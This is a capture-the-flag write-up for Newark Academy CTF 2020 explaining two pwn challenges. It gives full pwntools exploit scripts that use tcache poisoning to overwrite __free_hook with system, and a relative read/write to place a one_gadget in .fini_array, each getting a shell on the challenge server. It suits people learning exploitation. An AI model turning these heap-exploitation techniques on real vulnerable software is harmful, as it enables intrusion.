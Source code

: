 # Newark Academy CTF 2020 Internal

b1c takes third global and first in highschools (We stole Gabe for one algo challenge *again*).

We also maintained the b1c tradition of dropping from 1st to 3rd due to a single challenge (*ahem* veggie factory 5 *ahem*) :upside_down_face:


## Grade calculator

Coming soon after admins finish verifications :D


## Covid tracker tracker tracker
> Pwn 500, 40 solves
> You've heard of COVID trackers, you might have heard of COVID tracker trackers, but what about COVID tracker tracker trackers? This one is a little rough around the edges, but what could possibly go wrong?
> 
> nc challenges.ctfd.io 30252
> 
> -asphyxia

No PIE, so we can poison tcache and point it to `setvbuf@got` to read a libc pointer. Then, we can poison tcache again to write `system` to `__libc_free_hook`.

We have to do some fiddling with the amount of trackers we create to ensure we can recover from the initial tcache poison. The tcache will look something like `HEAD -> <actual chunks> -> setvbuf@got -> setvbuf@libc -> <bad memory>`. Any further allocations past setvbuf@libc would cause a segfault.

We can fix this by creating an excess of freeable chunks before poisoning, and freeing them to the head of the desired tcache bin after our first poison, creating a sort of "buffer" of newly poisonable chunks.

Then, just tcache poison to overwrite `__libc_free_hook` with `system` and free a chunk with `/bin/sh`.


```python
from pwn import *

e = ELF("./cttt")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([ld.path, e.path], env={"LD_PRELOAD": libc.path})
p = remote("challenges.ctfd.io", 30252)

context.log_level="debug"
gdb.attach(p, """c""")

def add():
    p.sendlineafter(">", "1")


def edit(idx, n):
    p.sendlineafter(">", "2")
    p.sendlineafter("?", str(idx))
    p.sendlineafter("?", n)


def remove(idx):
    p.sendlineafter(">", "3")
    p.sendlineafter("?", str(idx))


def show():
    p.sendlineafter(">", "4")



add()   #1
add()   #2
add()   #3
add()   #4
add()   #5
add()   #6
add()   #7
add()   #8
add()   #9
add()   #10
edit(10, "/bin/sh")



remove(6)
remove(5)
remove(4)
remove(3)
remove(2)
remove(1)


edit(1, p64(e.got["setvbuf"]))



add()   #11
add()   #12

show()

p.recvuntil("12) ")

libc.address = u64(p.recv(6).ljust(8, "\x00")) - 529136


print("libc base", hex(libc.address))


remove(7)

edit(7, p64(libc.sym["__free_hook"]))

add()   #13
add()   #14

edit(14, p64(libc.sym["system"]))

remove(10)



p.interactive()
```

Flag: `nactf{d0nt_us3_4ft3r_fr33_zsouEFF4bfCI5eew}`


## Tale of two
> Pwn 500, 36 solves
> A tale of two functions, two operations, and a flag.
> 
> nc challenges.ctfd.io 30250
> 
> -asphyxia

We get one relative read and one relative write. We can read a libc pointer at offset -4 and we can write a one_gadget to .fini_array at offset -75.

```python
from pwn import *

e = ELF("./tale-of-two")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process(e.path)
p = remote("challenges.ctfd.io", 30250)


context.log_level="debug"
gdb.attach(p, """b * main+190
           b * main+233
           c""")


#read

p.sendlineafter("?", "-4")

p.recvline()

libc.address = int(p.recvline().strip(), 16) - 507584

print("libc base", hex(libc.address))




#write a one gadget to .fini_array, which is at offset -600/8 == -75

og = libc.address + 0x4f322

print("one gadget", hex(og))

p.sendlineafter("?", "-75")

p.sendlineafter("?", str(og))


p.interactive()
```

Flag: `nactf{a_l0n3ly_dt0r_4nd_a_sh3ll_tUIlF0jxW5aMXoGo}`
